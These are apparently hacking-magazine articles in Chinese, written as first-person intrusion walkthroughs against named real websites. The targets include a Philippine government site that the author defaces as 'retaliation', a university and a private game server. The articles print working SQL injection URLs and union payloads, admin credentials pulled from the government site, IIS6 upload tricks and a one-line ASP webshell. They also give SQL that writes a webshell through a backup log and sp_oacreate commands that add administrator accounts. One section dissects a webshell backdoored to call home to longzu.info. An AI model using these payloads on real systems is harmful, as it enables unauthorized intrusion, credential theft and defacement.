在得到WebShell后，可能大家还会想着如何获取服务器权限，不过我从来不那样做。我为该网站的 conn.asp 文件加入了 neeaor 的防注入程序，并把英文版的后台备份数据库功能页面删除了，又检查了一下是否还有别的漏洞，最终修复后删除了自己的WebShell就走人了，整个入侵检测到此结束。

可能有些小菜不相信我会这么做，事实上我很少检测别人的网站，因为我不需要炫耀自己的技术。如果你是站长，我进来后没有在你的网站挂马而是帮你修复了漏洞，那你的想法会是什么？帮助别人你不快乐吗？通过本次安全检测，说明该网站的站长还是有一定的安全意识，在后台登录和数据备份等可以危害到网站的地方都做了处理，可是人尽皆知的注入漏洞却没有修复，并且站长也没有发现还有个英文版的后台。一点点的疏忽就丧失了网站的控制权，真是治标不治本啊！希望各位站长细心一些，抽些时间多看看《黑客X档案》，也希望大家在进行安全检测的时候要多注意一些细节。

借本文我想说几句心里话。有一次我对某网站进行安全检测，在得到WebShell后，杀毒软件一直都没有提示有病毒，可是当我要对该网站的漏洞进行修复时，杀毒软件却提示了该网站有病毒。我检测了一下网站的页面文件，确实多出了一句挂马的代码。这说明有人同时也在检测着这个网站，并且在他得到WebShell后，马上就给网站挂上了马。对于这种人我坚决鄙视，希望大家都能够提高安全意识，不要给这种人以可乘之机。

（文章中涉及到的啊D注入工具，已经收录在了光盘中）

### 反清滥测漏洞网站中国

[Fanatical Boy]Erevus

暑假每天都在网上闲逛着，朋友发来了一条信息，让我帮他友情检测一个网站 http://www.nortoncnc.com/，就当是练练手吧。打开网站主页，随便翻了个二级目录，没有发现“ID=”。鉴于使用的都是伪静态页面，我是小菜，看到伪静态页面就觉得恶心，自己并不会把它转成动态形式，所以使用注入的方法是不可能的，就只好使用旁注了。

打开IP反查网站，查询结果如图1所示。同一个服务器上的网站好多啊，这个结果倒是很令人欣慰，因为反查出来的网站越多，旁注成功的几率也就越大。

经过检测，基本上网站都不存在注入漏洞，虽然有的网站有注入点，但是却爆不出字段里的信息，看来这个服务器的安全性做得还算不错。我只好一个个地去找后台，看看有没有弱口令什么的。有时候做入侵就得需要很大的耐心才行。经过半个多小时的手工猜解，终于找到了一个存在弱口令的网站 http://baitasilk.com/，后台登录账号和密码都是“admin”。但是成功登录后台，我却傻眼了，如图2所示，整个页面都是空白的。我只好查看页面的源码，如图3所示，看来有前辈来过了，而且把整个站都挂上了暗链。

再返回到源码，看到了以下这段：

```html
<frameset id="frame" framespacing="0" border="false"
cols="180,*" frameborder="0" scrolling="yes">
  <frame name="left" scrolling="auto" src="admin_left.asp" noresize>
  <frameset framespacing="0" border="false"
  rows="35,*" frameborder="0" scrolling="yes">
    <frame name="top" scrolling="no" src="admin_top.asp">
    <frame name="right" scrolling="auto" src="admin_main.asp">
  </frameset>
</frameset>
```

这里暴露了后台一些模块的链接地址，于是我在浏览器里输入“http://xxxx.com/admin/admin_left.asp”，打开的页面如图4所示。我随便进了“逐系统功能”，发现此套系统使用的是 eWebEditor 在线编辑器。网站管理系统自带了上传功能，系统设置这里可以设置上传格式和上传目录，所以我就把系统设置的格式修改了一下，如图5所示。接下来返回到“新闻管理”，选择修改新闻，传上小马，显示上传成功了，在源代码里查看小马的地址，如图6所示（在这里要注意上传的目录），得到WebShell后，打开网站根目录……

该网站目录是“h:\wwwroot\baitasilk\wwwroot”，点击“回到上级目录”，也就是“h:\wwwroot\”，发现路径未找到。服务器不支持 aspx，也不能上传自己的 cmd.exe，执行 **net user** 命令，也得不到回显，如图7所示。

那只好手工来猜目录了，因为服务器管理员是使用域名来命名文件夹的，所以我猜测诺顿中国的路径就是“h:\wwwroot\baitasilk\nortoncn\wwwroot”，结果很意外，居然成功地跳转到了诺顿网站的目录，如图8所示，兴奋啊。接下来就是新建一个文本文件留言提示，最后拍拍屁股走人了。

图4  
图5  
图6  
图7  
图8

（文章中涉及到的啊D注入工具、大马、ASA，已经收录在了光盘中）

## 由WebShell后门引发的“血案”

#### 一、入侵缘由

这天小菜我正在某黑客论坛溜达，突然一个帖子强烈地吸引了我：“2010年黑吧超强VIP免杀ASP木马，送给大家”，如图1。看起来很强大哟，还免杀，但是下载地址却是外部链接，这引起了我的怀疑。不多说了，按照给出的地址下载了一份回来，下载完毕后解压，使用 EditPlus 打开，如图2所示。

我们可以根据开头的代码 `<%@ LANGUAGE = VBScript.Encode %>` 很容易地判断出来，后面的加密应该是微软的 VBScript.Encode 加密。可能有同学要问了，被这个加密后不应该是乱码吗，怎么这里不是呢？大家别急，这个木马只是加密了部分代码，代码前面定义WebShell密码的部分并没有加密。根据我的经验，后门往往就写在开头的部分里。先不急着解密，我们把没有被微软加密的代码看下去，一路来到了第43行的代码，如图3所示。

```vb
a code=""s?pسا.q/ofni.uzgnol.www//:ptth "=crs tpircs<""
fun=StrReverse(replace(replace(Encrypt(acode),"",Chr(34)),"@",vbCrLf))
```

这里的代码 `acode=""s?pسا.q/ofni.uzgnol.www//:ptth "=crs tpircs<""` 引起了我的注意。这行的意思就是把等号右边的字符串赋值给 acode 变量，然后紧接着下面一句代码 `Fun=StrReverse(replace(replace(Encrypt(acode),"",Chr(34)),"@",vbCrLf))` 就是对 acode 这个变量里面的字符串进行变换、替换，最后字母反转等操作。我们知道 StrReverse 函数的作用就是对字符串进行反转，这里不管它前面怎么变换，我们先试着把 acode 变量里面的字符串反转下看看，得到了 `<script src='http://www.longzu.info/q.asp?s=`。大家可以看得很清楚了，这里是一处 JavaScript 标签，其 src 属性是指向“http://www.longzu.info/q.asp”这个页面的。

搭建环境，访问ASP木马，点击右键查看源文件，应该就可以看到完整的标签内容了。说做就做，使用小旋风搭建ASP环境，访问大马，登录，查看到的源文件如图4所示。在源文件中搜索“longzu.info”，来到了最后一行，如图5所示。

```text
class='an' title='移动'>Move</a> ...
http://www.longzu.info/q.asp?s=localhost/Asp/新疆文件夹/新建文件夹/shandian.asp&p=shandian
```

可以很清楚地看到完整的 script 标签是  
`<script src='http://www.longzu.info/q.asp?s=localhost/Asp/新疆文件夹/新建文件夹/shandian.asp&p=shandian'>`  
这样的。src属性是指向一个ASP页面的，而且参数就是我们大马的地址+大马密码。尝试访问后可被记录并被放置后门的一方看到。

图1  
图2  
图3  
图4  
图5  
图6

#### 二、战争开始

首先我们访问它的主站“http://www.longzu.info”，如图6所示，这是一个商城网站。根据底部的版权信息“Powered by ShopEx v4.85”，我们可以轻松得知网站的整站系统是 ShopEx。看到这儿我想可能有戏，前段时间 ShopEx 不是刚出了几个0day吗，于是就操起漏洞利用工具，填入网址，提交，如图7所示。

但并没有出现想象中的数据库信息，我又手工测试了几次，都没有成功，看来漏洞已经被修补，直接从主站下手应该没多大希望了。那么我们就换个思路，还可以通过旁注。使用C段反查工具得到了如图8所示的结果。

可以看到上面有很多网站，我之所以选择使用这款工具，就是因为它查询出来的结果比较准确一些，而别的一些查询工具查出的信息很多都是过时的。如上图所示，我们在结果栏中点击鼠标右键，选择“Export All”，然后导出一个txt文件，这样方便我们使用别的工具来批量扫描。接下来打开明小子3.6，选择网站批量检测，在下方的待检测网址框中点击右键，导入我们刚才使用工具导出来的txt文件，然后在单选框中选择全选，最后点击开始检测。过了一会儿，出现了一个看起来挺熟悉的检测结果，如图9所示。

是“www.shanxihaoshi.com/admin/uploadPic.asp”，这个路径相信小菜们都很眼熟吧，呵呵。不出意外的话，这个应该是雷驰的上传页面。我们打开网址看看，果然是雷驰的上传页面，如图10。嘿嘿，我们直接构造上传地址“uploadPic.asp?actionType=mod&picName=test.asp”，回车提交后再选择一个图片木马，上传。成功后应该就可以在图片目录下生成 test.asp 文件，而该文件的内容就是我们上传的图片木马的内容。好了，我们操作一下，上传后没有回显，没法判断是否上传成功。我们直接访问一下地址“http://www.shanxihaoshi.com/uppic/test.asp”，结果如图11所示。

会不会是修改了默认上传图片的目录 uppic 呢？我试着直接访问 uppic 目录，结果却和上图一样，看来默认的图片目录被修改了。我们返回到网站首页，通过一则新闻发布页面，我找到了图片的上传目录是 UploadFiles，然后继续访问“http://www.shanxihaoshi.com/UploadFiles/test.asp”，结果同样和上面一样，提示不存在，看来雷驰的上传漏洞被修复了。

很多小子遇到这样的情况时都会直接选择放弃，其实雷驰的上传漏洞修复后还是可以被突破的。我们继续构造上传页面：`uploadPic.asp?actionType=mod&editRemNum=1.asp;&upload_code=ok&editImageNum=1`，回车访问后上传 1.jpg 命名的图片木马，此时就会在图片目录生成“1.asp;_2.gif”命名的文件了。而这个文件名配合 IIS6 的解析漏洞就是可以让我们拿到WebShell了。我们来试试看，上传，访问，看，小马已经成功上传了，如图12。

图12

至此，我们离目标网站的权限又近了许多。拿到了旁站的权限，接下来就开始向目标网站迈进了。首先上传一个大马，成功登录后查看组件信息，WS组件显示是没有的，可能被重命名了，也可能是被删除了。我们上传 cmd.asp，这个文件可以调用被改名的WS组件，但还是失败了，说明WS组件是被删除了。考虑到 aspx 大马继承的权限要比 asp 的大，所以我就上传了一个 aspx 木马，如图13。

点击 IISSpy，得到的结果为空，试了一下目录也是不能跨的，权限不够。再试试执行 cmd，点击 Command，来到 cmd 界面，单击“Run”，提示拒绝访问，如图14。我试着在网站根目录下上传了一个 cmd.exe，然后再运行，还是提示拒绝访问，看来网站根目录也是没有权限的。怎么办呢？这时候我想到了 Temp 目录，默认情况下这个目录是 everyone 都可以控制的。我们继续在“C:\Windows\Temp”目录下上传一个 cmd.exe，这回终于成功运行了，如图15。

现在离提权成功又近了一步。考虑到支持 aspx，又是 Windows 2003 的系统，应该尝试一下前段时间非常流行的巴西烤肉提权。我们上传利用程序 Churrasco.exe 到服务器的 temp 目录下，然后来到 cmd 界面，在 CmdPath 中填写 Churrasco.exe 的地址，在 Argument 中填写参数，然后执行，结果如图16。

提示“Couldn't run command, try again!”，这是为什么呢？难道是默认的 cmd 没有权限吗？于是我又找了一个可以自定义 cmd 路径的巴西烤肉利用程序上传上去，执行命令，成功地添加了账户！兴冲冲地跑去远程连接3389，输入IP回车后，好大一会儿才弹出一个无法连接的提示框，如图17。

怎么，难道是更换端口了？我又跑回WebShell里执行 **tasklist /svc**，然后在结果中找到了 TermService 服务，也就是终端服务所对应的进程 PID 是 2216，如图18。最后再执行 **netstat -ano**，查看 PID 2216 所对应的端口，如图19。

图13  
图14  
图15  
图16  
图17  
图18  
图19

大家可能发现了，由于 ASP 木马设计的原因，PID 并没有被完整地显示出来。怎么来确定呢？我们查看源文件，搜索 2216 就可以了。如图20，看得出来，终端服务对应的端口就是 1984 了。我们使用端口 1984 重新连接一下终端，如图21所示，成功登录了。

是把接收到的参数记录在同目录下的 qw.htm 中，结尾代码处还有一个遍历 request 对象的 ServerVariables 集合的循环，不过被注释掉了。我果然在同目录下找到了 qw.htm 文件，打开它一看，哈哈，记录的正是我们本地访问 ASP 木马的地址和密码，还有我输入的那句“放后门是不对的，人品有问题”。由此可以判断，我最初的猜测是完全正确的！这里奉劝一下那些喜欢放后门的人，要厚道，不劳而获终究是小人所为，同时也希望看到此文的兄弟们不要按图索骥，再去入侵这个网站了，啊呵，给服务器管理员也省点事吧。


至此，服务器就被我成功地拿下了，不用说了，目标网站的权限也归我了。进入服务器，找到那个后门地址所在的目录，果然有一个 q.asp 文件。这个 q.asp 就是我之前猜测的用来记录参数的脚本文件，我们打开看一下，如图22。

```asp
<%
Dim oFS, oTS
Set oFS = Server.CreateObject("Scripting.FileSystemObject")
Set oTS = oFS.OpenTextFile(Server.MapPath("./qw.htm"), 8, True)
oTS.WriteLine("" & Request("s") & " " & Request("p") & " " & _
    " " & Request.ServerVariables("REMOTE_ADDR") & "<br>")
oTS.Close

'for each e in request.servervariables
'response.write "<p>" & e & "=" & request.servervariables(e)
'next
%>
```

熟悉 ASP 语言的朋友应该可以看得明白，这段代码的作用就是……（文章中涉及到的 3est 旁注查询工具、Churrasco-DST、domain3.6、Shopex V4.8.4/V4.8.5 0Day 通杀工具，已经收藏在了光盘中）

### 一个漫漫奇迹服刷装备小记

七八月的阳光好毒辣，但不知不觉九月已经来临了，美好的假期已经结束了。回想起放假这段时间自己所做的事情，不由得感到一阵惭愧。带着郁闷的心情坐到电脑前，登录 QQ，“嘀嘀嘀……”，故事便由此展开了。打开 QQ 消息，朋友给我发过来一个传奇私服的网站，叫我拿到 GM 账号后给他刷装备。唉，算了，反正也没事干，就抱着试一试的心态看了一下。打开 IE 浏览器，习惯性地输入默认后台地址“http://www.***.com/admin/”，回车后，“呼”的一声，后台登录界面出现了，如图1所示。

#### 一、后台密码篇

既然如此，那就加把劲干了。在网站首页打开了一条“http://www.***.com/news?id=73”的链接，尝试性地在后面添加“and 1=1”和“and 1=2”，测试有没有注入漏洞。输入 http://www.***.com/news?id=73 and 1=1 提交后弹出了错误提示框，如图2。呵呵，还有防注入，看来自安全性还挺“高”的。后来经过测试，发现没有过滤“xor”，输入 http://www.***.com/news?id=73 xor 1=2 提交后返回了正确页面，输入“http://www.***.com/news?id=73 xor 1=1”提交后返回到了另一个网页，由此可以确定存在注入漏洞……


试着输入默认账号和密码 admin，这回运气就没有刚才那么好了。于是我返回首页开始搜索一些敏感信息，大概地看了个轮廓，好熟悉啊，但一时却又想不起来了。Ping 了一下私服的网址，发现 IP 和私服服务器的 IP 一样，这就表示如果我们拿下了这个网站，就有很大的几率可以拿到 GM 账号。


提交 `http://www.***.com/news?id=73 xor 0=(select count(*) from sysobjects)` 判断数据库类型，返回错误，那就是 Access 数据库了。继续猜管理员表名，提交 `http://www.***.com/news?id=73 xor 0=(select count(*) from admin)`，返回正常，存在表 admin。提交 `http://www.***.com/news?id=73 xor 0=(select count(username) from admin)`，返回正确，存在字段 username。接着提交 `http://www.***.com/news?id=73 xor 0=(select count(password) from admin)`，返回正确，存在字段 password。提交 `http://www.***.com/news?id=73 order by 8` 猜字段长度，返回错误；再提交 `http://www.***.com/news?id=73 order by 7`，返回正确，说明字段长度为 7。提交 `http://www.***.com/news?id=73 xor 1=2 union select 1,2,3,4,5,6,7 from admin`，返回了“3”和“5”，于是我们构造语句 `http://www.***.com/news?id=73 xor 1=2 union select 1,2,username,4,password,6,7 from admin`，成功地爆出了账号和密码，如图5。


#### 二、Webshell篇

把加密的 MD5 拿到 www.cmd5.com 网站在线破解后，使用密码成功登录了后台，如图6。接下来就是拿 Webshell 了。随便看了看，后台好简陋，没有备份，没有上传……看来利用的也只有增加新闻这项了。左看右看也没有发现什么价值，难道就这样放弃了吗？当然不行，这有违小柔我坚持胜利的原则，怎么可以遇到一点困难就放弃呢？


返回主页看了看新闻部分，发现新闻部分大多是直接生成的 htm。此时我灵光一闪，立马返回后台新闻添加页面，开始判断我的思路是否正确。拿出 WinSockExpert 开始抓包，打开 WinSockExpert 主程序，选择 IE 进程，选中对应的页面，单击打开，如图7。在新闻添加页面里乱填一番，然后单击提交，如图8。


返回 WinSockExpert，可以看到已经抓到了几条提交的数据。打开其中 POST 开头的数据项，看到其中的 cookie 为：`n_tid=45&n_tsid=45&n_commmend=1&n_sid=&n_title=asfsa&n_author=admin&n_mpic=&n_rpic=&Submit1=...&n_fname=2010621653456482.htm&n_fpath=2010-6-28&n_data=2010-6-28+16:3A53%3A45&n_content=safsaasf&MM_insert=form1`，Cookie 里面清清楚楚地显示着提交的内容和保存的文件名字。我想大家现在应该想到如何做了吧。

把“n_title=”后面的内容修改为：

```html
<SCRIPT%20RUNAT=SERVER%20LANGUAGE=JAVASCRIPT>eval(Request.form('#')%2B'')</SCRIPT>
```

“n_fname=”后面的内容更改为 1.asp。下面是我修改后的 cookie 语句：（略）使用修改好的 cookie 替换刚才抓到的 cookie，另存到文本文件里，我放在了“C:\1.txt”。


图10

微型 ASP 后门客户端连接小马，然后成功地导出了大马，如图10。


图8


图9

好了，万事俱备只欠东风，调出 NC，在 CMD 下输入“nc www.***.com 80<1.txt”（NC 要和修改好的数据包存放在同一目录），回车，提交成功了，如图9。一句话木马的地址为“http://www.***.com/news/2010/6/28/1.asp”，拿出冰狐浪子。

### 二、服务器篇

登录 Webshell 看了看，权限挺大的，所有盘都可以访问，服务器上安装有 Serv-U，提权应该没问题。直接利用 Webshell 自带的 Serv-U 溢出添加了一个远程登录账号，打开 3389，输入账号、密码，成功登录到了服务器，如图11。最后把服务器整理下给朋友扔了过去，叫他自己去找 GM 号。没玩过传奇私服，也不了解怎么刷装备，呵呵。至此，这次入侵故事也就结束了。


图11

#### 四、总结

这次入侵没有用到什么新技术，也就是对手工注入的一次温习。现在针对各个方面的网络检测工具实在是太多了，同时也非常傻瓜化，到底是福还是祸呢？归根结底还是使用者的问题，希望大家在使用工具减轻负担的同时，偶尔也要抽出点时间亲自动手温习一下哦！

（文章中涉及到的 nc.exe、抓包工具 WinSockExpert，已经收录在了光盘中）

### 黑客的反击

#### 入侵菲律宾政府网站

前几天，中国香港游客在菲律宾被劫持的事件震惊了我们，而菲律宾警方愚蠢的应对措施，以及事后菲警察、菲学生把出事客车当成背景来拍照等一系列事情，更是深深地激怒了我们。让我们为那些在事故中死去的香港同胞哀悼，更要拿出手中的“武器”，向菲方作出强烈的反击！

这天，我正在网上浏览新闻，QQ 上一好友发来了消息，问我们什么时候行动，并说国内一些黑客组织已经开始行动了。我立刻意识到这个行动极有可能就是针对菲律宾网站的，细问之下果然如此。小菜我技术不太好，而且也不熟悉国外的编辑器漏洞、CMS 漏洞之类的，要怎样入侵呢？算了，硬着头皮上吧，直接拖出啊D，点击左边的“扫描注入点”，然后在地址栏输入“www.google.com”，来到高级搜索，在关键词中填入“inurl:asp?”，选择 100 项结果，搜索网页的语言就选择菲律宾语，网页位置也是菲律宾，如图1所示。设置完成后，点击搜索，稍等一会儿，就会搜索出不少注入点了，如图2。

检测了，结果啊D提示网站使用的数据库为 Access 或者其他的数据库类型，如图3。


我们再点击检测表段，可惜的是啊D没有检测出表段。有点基础的朋友应该都知道，对于 Access 的注入点，找不到表段的话就很难再继续下去了。难道我们就这样放弃吗？不，这不是我的风格。我们复制下这个注入点的链接地址，在浏览器中打开，习惯性地在地址后面添加了一个“'”，提交后报错了，如图4。


报错信息如下：

> Microsoft OLE DB Provider for ODBC Drivers error '80040e09'  
> [MySQL][ODBC 3.51 Driver][mysqld-5.0.77-log]You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '?' at line 1  
> /services/news.asp, line 33


好了，我们随便选择一个注入点“http://www.hagonoybulacan.gov.ph/services/news.asp?newsid=68”。这个网站的域名是 gov.ph 结尾的，应该是菲律宾的一个政府网站。我们在链接地址上面单击右键，选择“注入检测”，就可以对这个注入点进行检测了，结果啊D提示网站使用的数据库为 Access 或者其他的数据库类型，如图3。

根据上面的出错信息可以看出，网站使用的竟然是 MySQL 数据库，ASP 脚本和 MySQL 数据库搭配的情况还真不多见。看来网站管理员也挺变态的，不过话又说回来，数据库是 MySQL 的话我们就有得玩了。首先，来判断是不是注入点，我们在该网址后面分别添加“and 1=1”和“and 1=2”，提交后分别返回了正常和错误的页面，说明这应该是个注入点。继续来手工判断字段数，使用“order by”语句。在注入点地址后面添加“order by 10--”，提交后返回了正常页面，如图5；再继续提交“order by 11--”，同样返回了正常页面；当字段数为 12 的时候返回了错误提示，如图6。

看返回信息，应该是字段数不匹配，那么我们就可以确定字段数是 11 了。继续使用 union 联合查询，提交语句“and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11--”，这里的“and 1=2”是为了让其报错，从而在当前页面显示我们查询的信息，结果如图7所示。


爆出了 2、3、5、11 这四个字段。我们习惯性地来看一下数据库版本以及用户名之类的信息，提交语句“and 1=2 union select 1,user(),database(),4,5,6,7,8,9,10,version()--”，返回结果如图8所示。从返回的内容我们可以得到以下信息：当前数据库版本为“MySQL 5.0.77-log”，当前数据库名为“hagonoy_maindbase”，当前的数据库用户为“hagonoy_webuser”，而且通过 ping @ 符号后面的地址可以得知，当前数据库和网站不是分离的。

我们已经知道了当前用户不具有 root 权限，想 load_file 是不可能的，更不用说导出 shell 了，因此我们只能暴管理员的账号和密码了。大家都知道从 MySQL 5 开始的版本里，新增加了一个系统库 information_schema，它是用来存储数据库系统信息的，如果权限足够的话我们就可以通过它来暴出所有的数据库，这也就是之前为什么要查看数据库版本信息的原因。我们提交“and 1=2 union select 1,2,3,4,5,6,7,8,9,10,group_concat(schema_name) from information_schema.schemata --”，得到了所有的数据库名，如图9。

因为我们之前已经通过提交 database() 函数得到当前数据库名了，所以这一步可以说是多余的，就权当带大家来复习 MySQL 的注入了。继续提交“and 1=2 union select 1,2,3,4,5,6,7,8,9,10,group_concat(table_name) from information_schema.tables where table_schema=0x6861676F6E6F795F6D61696E6462617365--”，这里的 0x6861676F6E6F795F6D61696E6462617365 就是当前数据库名 hagonoy_maindbase 的十六进制形式。通过这条语句我们可以查询当前数据库中的所有表名，结果如图10所示。


我们发现当前数据库是存在 admin 表的，因此继续来提交语句暴出 admin 表中的所有字段，语句如下：“and 1=2 union select 1,2,3,4,5,6,7,8,9,10,group_concat(column_name) from information_schema.columns where table_name=0x61646D696E--”，返回结果如图11所示。


暴出了 admin 表中的全部字段。那么接下来，就是暴出字段中的具体内容了。我们发现 AdminID、name、password、login 这四个字段比较敏感，先来查询一下它们中的内容，提交语句“and 1=2 union select 1,AdminID,name,4,login,6,7,8,9,10,password from admin--”，返回结果如图12所示。


现在我们就得到了 admin 表中第一行记录的 AdminID 值为 1，name 值为 Nante Salaysay，password 值为 ssap，login 值为 nante。密码应该是明文的。到这里我们就可以使用得到的账号和密码来尝试登录网站后台了。

首先尝试一下常见的管理目录 admin、manage、system 之...

## 一个人的战争

……关的，发现都不存在，我们祭出 wwwscan，这是一个老牌的目录扫描工具。在命令行下面直接输入“wwwscan www.hagonoybulacan.gov.ph -p 80 -m 10 -t 10”，回车后就开始扫描该网站的目录了。不一会儿，已经扫描出了一些可疑的目录，如图13。

```bash
wwwscan www.hagonoybulacan.gov.ph -p 80 -m 10 -t 10
```


图13


图14

我们兴冲冲地来访问试试看。如图14所示，成功打开了后台登录页面，使用上面得到的 login 值 nante、password 值 ssap 成功登录了进去，如图15。接下来就是拿 shell 了，我们点击上面的“Add News”，这应该是增加新闻的链接，但点击后却出现了“Sorry! You are not allowed to access this module.”的提示信息，如图16。


图15

就是说我们没有进入该模块的权限。那好，我们再换别的。但诡异的事情出现了——我把所有的链接都点了一遍，但提示全和上面一样，没有权限！怎么会这样呢？突然我想到，在 admin 表中我们爆出的只是第一行数据，那么很有可能还会有别的账号，而且权限足够的。我们返回到上面的注入点处，提交“and 1=2 union select 1,AdminID,name,4,login,6,7,8,9,10,password from admin limit 1,1 --”，得到了 admin 表中的第二条数据，结果如图17所示。这条记录的 login 值是 admin，password 是 ha60noy，我们使用这个来登录试试看，成功登录。

再次点击“Add News”，这回来到了如图18所示的页面。哈哈，权限是足够了，而且还可以上传。我们在“News Title”“News Content”里面随便输入，然后在“Teaser Image”处点击“浏览”来选择一个改名的小马“1.asp;.jpg”。因为之前通过 wwwscan 返回的 banner 信息可以看出是 IIS 6.0，所以这里我直接选择了这种格式。选择好后，点击“Save”按钮，结果如图19所示。

```sql
and 1=2 union select 1,AdminID,name,4,login,6,7,8,9,10,password from admin limit 1,1 --
```


图16


图17


图18


图19


图20

可以看到已经正常上传了，我们再回到首页新闻页面，找到刚才发布的新闻，如图20。这里并没有看到我们上传的小马，在什么地方，失败了吗？

我们使用记事本打开小马，在代码开头处输入 gif89a，再次重新上传“1.asp;.jpg”，还是不行。继续尝试，我们找到一个正常的图片，然后使用 C32Asm 打开它，在图片代码的间隙处输入我们的一句话木马服务端“<%eval request("a")%>”，如图21所示，然后保存成“1.asp;.gif”格式，继续上传，再跑到新闻发布页一看，已经上传成功了，如图22。


这里的图片没有显示出来，是因为被解析成了 ASP 格式。我们点击右键找到地址，然后打开一句话木马客户端，填入密码 a 和小马的代码，点击提交。发现已经可以成功上传。由于编码的原因，汉字显示是乱码，如图23。呵呵，我们继续上传大马，就成功拿下了网站的权限，如图24。进入 WebShell 后我发现权限挺大的，这里就不提权了，入侵成功，来挂了个黑页吧，至此结束，如图25。


（文章中涉及到的啊D注入工具、wwwscan，已经收录在了光盘中）

## aspx入侵国内某大学服务器

Lupin（长沙理工08级网络工程）

这天正在上网，高中一个同学发来个网址，说是他们学校的网站，让我帮他检测一下。我打开看了下，网站是 asp.net 的，前段时间看了些关于 aspx 渗透入侵的文章，正好借这个机会实践一下，于是开始了这次入侵之旅。

### 一、备份拿 WEBSHELL

随便打开了个网页（图1），分别在后面添加 and 1=1、and 1=2，返回了同样的页面（图2），难道它不存在注入漏洞吗？接着分别提交字符型的测试语句‘ and ‘1’=’1’、and ‘1’=’2’，第一次返回了图1的页面，第二次返回了图2的页面，看来存在字符型的注入漏洞。直接把这个地址放到啊D中检测，竟然是 SA 权限的，而且支持多行执行（图3）。用 superscan 扫描了一下，发现服务器开放着3389（图4），这样只要用 SA 注入点添加一个管理员就可以拿下服务器。

可是当我用啊D自带的命令执行工具时，却无法执行成功，尝试恢复了下 xp_cmdshell，也没有成功。又换了几个命令执行工具，也都不能执行。我又试了一下网站的列目录，可以正常使用（图5）。经过一番查找，发现网站根目录为 D:\newweb\hzc。有了网站的根目录，就先备份一个 WEBSHELL 上去，再想办法拿下服务器。用下面的代码备份一个一句话木马上去。

```sql
alter database hzc_cng set RECOVERY FULL;
-- 设置成完全恢复模式

backup log hzc_cng to disk = 'D:\newweb\hzc\lupin.bak' with init;
-- 先备份一次，减少备份数据大小

create table cmd (a image);
-- 建一个 cmd 表，包含 a 字段，类型为 image

insert into cmd(a) values ('<%...Execute(request("value"))%>');
-- 把一句话木马插入到 cmd

backup log hzc_cng to disk = 'D:\newweb\hzc\lupin.asp';
-- 备份日志到 WEB 路径，得到 shell

drop table cmd;
-- 删除 cmd 表

alter database hzc_cng set RECOVERY SIMPLE;
-- 设置成简单恢复模式
```


图3


图1


图4


图2


图5

访问 http://www.xxx.net/lupin.asp（为保护网站网址做了修改），在数据刷过后出现了 execute（图6），说明备份成功了。

用一句话客户端连接上却没能成功生成小马，为什么一句话可以而小马却不行呢？我思考了一下，可能是服务器上安装有杀毒软件。于是我把提交的小马换成了我自己写的小马代码，再次提交，这回生成成功了（图7）。本想用小马提交个 aspx 木马上去，可是总是生成不了，可能真的是杀毒软件在作怪，于是提交了一个海洋一句话上去，海洋一句话一般是不会被杀的。用客户端连接一下，成功了（图8）。


#### 二、突破限制拿下服务器

有了 WEBSHELL，下一步就是想办法得到服务器的管理员权限。熟悉 asp.net 的朋友都应该知道，asp.net 的网站上都有一个 web.config 文件。Web.config 文件是一个 XML 文本文件，它用来储存 ASP.NET Web 应用程序的配置信息（如最常用的设置 ASP.NET Web 应用程序的身份验证方式），它可以出现在应用程序的每一个目录中。

我在网站目录中找到了这个文件，用大马的编辑功能查看了一下，在其中找到了 SA 的密码（图9）。在海洋木马的数据库操作器里设置好（图10），先尝试恢复 xp_cmdshell，但还是不成功。


我在百度上搜索了一下，在一个博客中得到了一个解决办法，在数据库操作器里执行（图11），操作成功。

```sql
declare @shell int
exec sp_oacreate 'wscript.shell', @shell output
exec sp_oamethod @shell, 'run', null, 'c:\windows\system32\cmd.exe /c net user hack$ lupin /add'
```

接着再执行如下语句，同样显示成功。用3389连接上去，顺利登录了服务器（图12）。

```sql
declare @shell int
exec sp_oacreate 'wscript.shell', @shell output
exec sp_oamethod @shell, 'run', null, 'c:\windows\system32\cmd.exe /c net localgroup administrators lupin$ /add'
```


#### 三、总结

这次渗透入侵就算成功结束了，没多少技术含量，也走了不少弯路。要是直接在注入点后添加后面提到的 SQL 语句，就可以直接添加管理员了。还有当我登录服务器时并没有发现杀毒软件，不知大马为什么不能生成。希望高手能指点一下。不过尝试了一次 aspx 入侵，还是很有收获的，希望这篇文章对各位在入侵 asp.net 网站时有所帮助。

> （文章中所涉及的啊D注入工具 V2.32，一句话木马已收录到本期光盘中）

### 对兰池——门户站的捡漏手记

在逛网站的时候，看到当地一门户站，规模挺大，用了很多 CMS 组合而成。主站用的是 PHPCMS2008 建设，前段时间有人放出了 phpcms2008 的 0DAY，不知道这个站补了没，随手测试了下，成功爆出了管理员密码，如图1。

```text
http://www.xxxxx.com/comment/comment.php?field=content%3D(select+concat(username%2C0x3a%2Cpassword)+from+phpcms_member+where+groupid%3D1+limit+1)+where+commentid%3D719%23&action=vote
```


图1

可是这个加密的 MD5 试了几个破解网站均告失败。回过头看看这个 0DAY，语句是直接把管理员的用户名和密码直接更新到当前评论的内容字段。那我们把其它的一些信息爆出来吧，代码如下。又成功爆出服务器不少信息，如图2。

```text
http://www.xxxxx.com/comment/comment.php?field=content%3D(select+concat(%20user(),database(),system_user(),current_user(),session_user(),version()))+where+commentid%3D719%23&action=vote
```


图2

Root 用户！哈哈，爽啊，但不知道网站的物理路径，load_file() 配置文件不现实。继续回到站里看吧，发现这个站还真不小：论坛用 DZ 7.2，购物模块用的是 ECSHOP 2.7.2，还有一个点评系统用的是 Modoer 1.2，房产用的是一个低调的程序，不知其名。试了以上系统网上公布的那些洞，不过都被管理员补了，思维短路了。后来洗澡的时候想到用 phpcms 的漏洞，破解出其它程序的用户名密码……于是把表前加上了库名（论坛是 discuz 的，所以直接猜的 discuz），成功爆出 discuz 管理员密码，如图3。

```text
http://www.xxxxx.com/comment/comment.php?field=content%3D(select+concat(username,0x3a,password)+from+discuz.cdb_members+where+adminid%3D1+limit+0,1)+where+commentid%3D719%23&action=vote
```

```text
+0,1)+where+commentid%3D719%23&action=vote
```


图3

以为到这结束了，可是没想到，MD5 再次破不出！这管理员安全意识不低啊。再爆最后的希望 ecshop，这次库名都错了，库名终于没默认了。不过没关系，对于 MySQL 数据库，在 information_schema.SCHEMATA 中的 schema_name 字段中放了当前服务器所有数据库的名字，所以我们构造如下语句，果然成功爆出了第一个库。接着把第2个、第3个……终于到5的时候出现了，终于看到了 ecshop 的库，如图4。

```text
